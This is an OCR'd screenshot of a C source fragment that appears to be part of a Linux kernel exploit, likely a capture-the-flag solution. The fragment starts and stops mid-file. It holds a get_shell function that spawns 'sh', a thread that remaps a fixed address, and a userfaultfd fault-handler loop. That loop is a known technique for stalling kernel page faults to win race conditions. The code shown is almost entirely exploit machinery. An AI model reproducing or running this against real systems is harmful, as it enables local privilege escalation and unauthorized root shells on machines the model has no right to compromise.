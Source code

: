 ```c=
}

void get_shell(int sig){
	system("sh");
}
void* job(void* x){
	sleep(1);
	fault = (void*)mmap((void*)0x2468000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,-1,0);
}

static void *
fault_handler_thread(void *arg)
{
   
   static int fault_cnt = 0;     /* Number of faults so far handled */
   long uffd;                    /* userfaultfd file descriptor */
   static char *page = NULL;
   ssize_t nread;
   struct uffdio_copy uffdio_copy;
   static struct uffd_msg msg;
   uffd = (long) arg;

   /* Create a page that will be copied into the faulting region */

   if (page == NULL) {
	   page = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
				   MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	   if (page == MAP_FAILED)
		   errExit("mmap");
   }

   /* Loop, handling incoming events on the userfaultfd
	  file descriptor */

   for (;;) {

	   /* See what poll() tells us about the userfaultfd */

	   struct pollfd pollfd;
	   int nready;
	   pollfd.fd = uffd;
	   pollfd.events = POLLIN;
	   nready = poll(&pollfd, 1, -1);
	   if (nready == -1)
		   errExit("poll");
	   munmap(fault,0x1000);
	   /* Read an event from the userfaultfd */
	   read(uffd,&msg,sizeof(msg));
	   uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                                  ~(page_size - 1);
 	   uffdio_copy.len = page_size;
           uffdio_copy.mode = 0;
           uffdio_copy.copy = 0;
           if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
                errExit("ioctl-UFFDIO_COPY");   



   }
}

int main(int argc, char *argv[])
```